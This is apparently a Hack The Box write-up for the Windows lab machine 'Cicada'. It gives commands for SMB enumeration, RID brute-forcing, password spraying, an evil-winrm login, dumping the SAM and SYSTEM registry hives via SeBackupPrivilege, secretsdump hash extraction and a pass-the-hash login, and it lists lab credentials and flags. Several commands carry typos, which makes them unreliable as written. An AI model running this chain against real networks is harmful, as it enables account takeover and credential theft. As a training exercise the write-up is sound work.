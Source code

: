 ```yaml
---
OS: 
date: 
Time Started: 15:10
Time Ended: 18:00
tags:
  - ActiveDirectory
  - HTB
  - Windows
  - Easy
---
```


# Given

Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise.

## IP: 10.10.11.35

# Steps

## Initial Enumeration

- nmap -sCV -p- 10.10.11.35 -oN enum/nmap.out
- Enumerate SMB shares
    - Null session authentication is available, and HR share is available for listing and reading.
    - Downloaded text file that has a default password
- Time to test for users who might happen to still use this default password (Password Spray).
    - First, look for users of the SMB service. Enumerate smb for user SID's using the guest/anon logon with netexec. (Because we can’t use the guest account to directly list users)
        - `netexec smb 10.10.11.35 -u username -p '' --rid-brute`
    - The list of users and groups generated needs to be cleaned up. Filter for the users with `SidTypeUser` only.
    - Password spray the SMB service for both default usernames and people's names that are associated with this default password.
        - `netexec smb 10.10.11.35 -u ./payloads/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
    - There will be one username `michael.wrightson` that uses the same default password.
- This only gets me access to the SMB service as Michael.Wrightson.
    - Test for shares this user has access to with netexec
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
        - This user has read access to the HR share, but nothing else.
    - Using this set of credentials, enumerate users of the share
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' —users`
        - This lists out the users of the SMB service, as well as bad password count, and descriptions.
        - The user account `david.orelious` has saved his password in the description `aRt$Lp#7t*VQ!3`
- Listing the shares available to this user shows he can read and write to the DEV share.
- Looking through this share gets us a powershell file called `Backup_Script.ps1`
    - This file is some code to encode a password for a user named `emily.oscars`
    - There is a plaintext password there (`Q!3@Lp#M6b*7t*Vt`)
- Enumerating shares for this user shows she has access to the `C$` share as well. This is where we can obtain an initial foothold

## Initial Foothold

- Use `evil-winrm` to make a connection to the system
    - `evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`
    - The user flag is on the desktop

## Lateral Movement to Administrator Account

- The first thing to do when the initial foothold is established is to check for the rights and privilegs of this particular user account.
    - `whoami /all`
- This shows that the user has a privilege enabled called `SeBackupPrivilege` that allows the user to make backups of the system.
- This privilege can be used to backup the SAM and SYSTEM registries and crack them later.
    - Backup registries
        - `reg HKLM\\SAM sam`
        - `reg HKLM\\SYSTEM system`
    - Download them
        - `download sam sam`
- We’ll use the secretsdump module of Impacket to get the hashes from these 2 files.
    - `impacket-secretsdump -sam ./sam -system ./system LOCAL`
    - This gets us the `NTLM` hashes for the users of the system. A Pass The hash attack is viable now.
- Open another win-rm session where we login as the administrator.
    - `win-rm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'`
    - We’ve successfully got into the machine as the admin.

# Findings

- Open TCP ports:
    - DNS
        - 53 Simple DNS
    - LDAP
        - 389, 636, 3268, 3269
    - HTTP
        - 5985
    - Kerberos
        - 88
    - MSRPC
        - 135, 593, 62664
    - Netbios
        - 139
    - SMB
        - 445, 139
    - UNKNOWN
        - 464
- Found password reset notice in SMB/HR
    - `Cicada$M6Corpb*@Lp#nZp!8`
- netexec password spray got user who's still using the default password
    - `michael.wrightson`
- Enumeration using the above creds gives a user with access to the DEV share
    - `david.orelious`
- DEV share has a file with creds for another user
    - `Backup_Scripts.ps1`
    - This has creds for user `emily.oscars`
- Emily Oscars has the `SeBackupPrivilege` flag enabled for their account.
    - We can backup her SAM and SYSTEM reg files for cracking later.

# Creds

Credentials found

`michael.wrightson`: `Cicada$M6Corpb*@Lp#nZp!8`

`david.orelious`:`aRt$Lp#7t*VQ!3`

`emily.oscars` : `Q!3@Lp#M6b*7t*Vt`

`Administartor` : `2b87e7c93a3e8a0ea4a581937016f341`

# Flags

- User: 51d5a869664f4522cc2d4ffcc9d939da
- Root: 00a9d8d15217db7909f52fc28127575b

# Proof

![](../../08_Assets/Images/cicada_proof.png)